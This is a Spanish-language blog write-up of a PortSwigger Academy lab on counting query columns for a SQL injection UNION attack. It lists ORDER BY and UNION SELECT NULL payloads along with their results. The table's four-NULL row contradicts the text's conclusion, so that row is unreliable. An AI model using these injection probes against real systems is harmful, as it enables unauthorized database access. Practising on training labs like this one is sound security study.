

+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 3"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, determining the number of columns returned by the query"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

En este <cite>laboratorio[^1]</cite>la finalidad es recuperar el numero de columnas de la tabla a la que se esta realizando la consulta, para posteriormente poder extraer los datos basandose en ese numero de columnas. Para este caso se puede hacer uso de dos metodos que pueden ser `ORDER BY ?` o `UNION SELECT NULL,NULL,NULL...`

Usando algunos de estos dos podemos recuperar el numero de columnas, sabiendo que a la hora que la aplicacion genere un error no sera el numero de columna correcta, claramente si usamos un `order by 9` y secuencialmente llegamos hasta el 10 quiere decir que esa tabla cuenta con 9 columnas y son las que utilizaremos posteriormente para imprimir los datos.

Union select null funciona igualmente, si agregamos 9 null y al agregar un null mas nos muestra error quiere decir que esa tabla solo cuenta con 9 columnas. Un ejemplo de uso en una consulta sql seria:

```sql
select * from tabla where nombre = 'test' order by 1--
select * from tabla where nombre = 'test' order by 2--
select * from tabla where nombre = 'test' order by 3--
select * from tabla where nombre = 'test' order by n--

select * from tabla where nombre = 'test' union select null--
select * from tabla where nombre = 'test' union select null,null--
select * from tabla where nombre = 'test' union select null,null,null--
select * from tabla where nombre = 'test' union select null,null,null,null--
```

## Reconocimiento

Ingresamos a la web y elegimos alguna categoria, en este ejemplo sera la categoria Pets.Ahora es momento de ir probando secuencialmente numero en numero y ver hasta que valor nos dara el error:

### Payloads

   Payload | Resultado
--------|------
  Pets' order by 1-- | Imprime resultados normalmente
  Pets' order by 2-- | Imprime resultados normalmente
  Pets' order by 3-- | Imprime resultados normalmente
  Pets' order by 4-- | **Muestra error**
  Pets' UNION SELECT NULL-- | **Muestra error**
  Pets' UNION SELECT NULL,NULL-- | **Muestra error**
  Pets' UNION SELECT NULL,NULL,NULL-- | Imprimer resultados normalmente
  Pets' UNION SELECT NULL,NULL,NULL,NULL-- | Imprimer resultados normalmente

Como se ve al ingresar el valor 4 o 1,2 y 4 nulls, nos muestra un error de `Internal server error` lo que hace que el backend no este respondiendo de manera correcta y no pueda procesar la solicitud. Con esto sabemos que la tabla en la que se extrae los datos cuenta con 3 columnas.




[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)